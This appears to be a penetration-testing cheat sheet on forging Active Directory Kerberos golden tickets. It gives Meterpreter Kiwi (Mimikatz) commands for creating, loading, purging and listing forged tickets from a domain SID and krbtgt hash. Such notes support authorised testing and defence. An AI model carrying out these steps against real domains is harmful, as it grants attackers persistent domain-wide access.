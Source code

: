 # Active Directory - Golden Tickets

### Overview

To generate a golden ticket, the following tree items are needed:
  - The domain name
  - The SID for the domain
  - The password hash of the krbtgt user from the Domain Controller

### Exploit

###### Mimikatz with Metasploit

Mimikatz 2.0 is available in Meterpreter as the Kiwi extension.

To load the extension in memory on a meterpreter shell:

```
use kiwi
```

The *golden_ticket_create* command can be used to create a golden ticket:

```
golden_ticket_create -d '<FQDN_DOMAIN>' -s '<SID_DOMAIN>' -k '<KRBTGT_HASH>' -u '<USERNAME>' -t '<FULL_SAVE_PATH>'

Usage: golden_ticket_create [options]
OPTIONS:
    -d <opt>  FQDN of the target domain (required)
    -g <opt>  Comma-separated list of group identifiers to include (eg: 501,502)
    -h        Help banner
    -i <opt>  ID of the user to associate the ticket with
    -k <opt>  krbtgt domain user NTLM hash
    -s <opt>  SID of the domain
    -t <opt>  Local path of the file to store the ticket in (required)
    -u <opt>  Name of the user to create the ticket for (required)
```

Tickets can be loaded/purged using the *kerberos_ticket_use* and
*kerberos_ticket_purge* commands:

```
kerberos_ticket_use <FULL_SAVE_PATH>
kerberos_ticket_purge
```

### Post-Exploit

###### Check tickets

The *klist* CMD command can be used to list the available kerberos tickets:

```
CMD> klist

Cached Tickets: (X)
...
```

On a meterpreter shell, the kiwi *kerberos_ticket_list* command can be used:

```
kerberos_ticket_list
```
